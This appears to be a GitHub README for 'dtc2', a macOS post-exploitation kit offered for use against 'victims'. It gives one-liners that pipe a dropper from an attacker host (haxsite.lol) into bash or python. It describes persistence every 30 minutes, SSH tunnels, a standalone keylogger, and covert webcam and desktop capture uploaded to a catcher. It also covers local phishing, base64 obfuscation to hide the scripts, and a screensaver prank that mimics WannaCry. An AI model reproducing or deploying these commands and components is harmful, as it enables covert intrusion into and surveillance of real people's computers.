 # dtc2
Duct Tape Command and Control!
This is just a compilation of scripts to help dig in a little bit and move around. It's designed to be used with tools like pupy, empire and metasploit, by adding functionality that those toolsets don't currently have, or is not easy to run in certain circumstances. It's designed to 'hook' a host by running a one-liner, so it can be deployed quickly from a keyboard, a ducky, a bash bunny, a platypus .app, or really any other way you want to run it. The easy way is like so:
> curl -s https://haxsite.lol/launch.sh | bash 

or, if you've used the packer:

> curl -s https://haxsite.lol/launch.sh.py | python


## WARNING
You will ABSOLUTELY NEED to go into these files and edit them: cups.sh, launch.sh, tunnel.sh, upload.php, snapshot.sh. There are placeholders for where you need to put the domain or ip or host you intend to host some of these things on, and some small tweaks, but nothing that won't take you ~3 minutes.
------
It's worth considering creating a 'generator' shellscript to spit out the 'finished' versions of these files so that you don't have to edit a bunch of files every time you wish to use dtc2. 

## DISCLAIMER
------
Most of this code has been cobbled together, duct tape and bailing wire style (duct tape c2, get it now?), it is horribly vulnerable, and could use a lot of polish and work.


## A quick file list:
------
- **Airport.sh**: this is just a shortcut to the airport binary on OSX
- **geo.m**: you compile this into a binary to get GPS coords from macs
- **tunnel.plist**: this is a plist that runs tunnel.sh, to make sure an ssh tunnel stays alive (not required, but there in case you need it)
- **imagesnap**: a binary that takes webcam pics (yes, it does fire the green light)
- **launch.sh**: this is the initial dropper. It creates dirs, and installs files, scripts binaries, etc, launches first evil things. You'll want to modify this.
- **cups.sh**: This is the main runscript that runs every 30 minutes. Modify this as you see fit.
- **tunnel.sh**: a simple bash loop to keep an ssh tunnel alive.
- **gallery.html**: a terrible, but simple drop-in gallery
- **snapshot.sh**: a terrible shellscript to take pictures of desktop/webcam and upload them to the crappy upload.php catcher
- **getImages.php**: this builds the imagelist for the gallery html
- **style.css**: css for gallery
- **upload.php**: terrible file upload catcher. gets files for you and dumps them in a gallery dir
- **osascript.sh**: an example of osascript, used to locally-phish a user. try it on yourself! :D
- **almondrocks72.py**: A slightly modified version of the almondrocks python proxy, for python 2.7
- **almondrocks3.py**: Same thing, but for python3.
- **printdebug**: The ruby keylogger, torn out of powershell empire so it is standalone. It writes to /tmp/debug.db.
- **printproxy**: the "proxy2" python proxy, for python 2.7, slightly modified so that it listens on more than localhost
- **packer.py**: a thin layer of obfuscation - encodes shellscripts into base64, and runs them through python to hide cleartext. Probably a good idea to run on cups.sh, launch.sh and snapshot.sh once you're done editing them. Remember to chmod things correctly and change the file extention in launch.sh if you use this. It'll create .py files. Just make sure everything lines up.


## WORKFLOW:
------
  buy hosting/vm -> setup webserver/letsencrypt/basicauth/etc -> upload files -> create all your payloads -> stand up your listeners -> edit launch.sh and cups.sh -> pack .sh files -> upload -> launch using **curl -s haxsite.lol/launch.py | python &**

You may also want to drop the gallery files into place somewhere so you can upload them. It is **STRONGLY ADVISABLE** to use letsencrypt and apache/nginx basic auth so that your victims can't just stumble across your files, and that you aren't transmitting things in the clear.


## PIRATE
------
In this directory are some files:
- **WebViewScreenSaver.saver**: a screensaver file, borrowed from https://github.com/liquidx/webviewscreensaver - modified so that the default url to open is **file:///tmp/pirate/index.html**
- ** css, js, scss, index.html**: an HTML5, animated version of the archer pirate virus, with no sound
- **wannacry.jpg**: a screenshot of the wannacry ransomware application window
- **launch.sh**: the script that does the thing.

Launch.sh, when run, will drop the piratevirus files and the jpg into /tmp, it will drop the .saver file into ~/Library/Screen Savers/, then it will set the screensaver options in osx to require a password, and set the wait time for the password to 0. It'll then use osascripting to set the wannacry jpg to the desktop on all available desktops, and then select the webviewscreensaver as the main screensaver, and launch it.


As an exercise left to the reader, at this point you can elect to install the plist for an ssh tunnel if you wish, or modify cups.sh to conduct any sort of post-exploit ops you wish. 

One idea is to add another 'curl to bash' line at the end and have it fetch somethinglike 'additonal instructions' as a shellscript to run in the event you want an asycnchronous command to be run, say in the event you lose all of your shells, or they install little snitch or something. 

Please help me make this thing awesome?

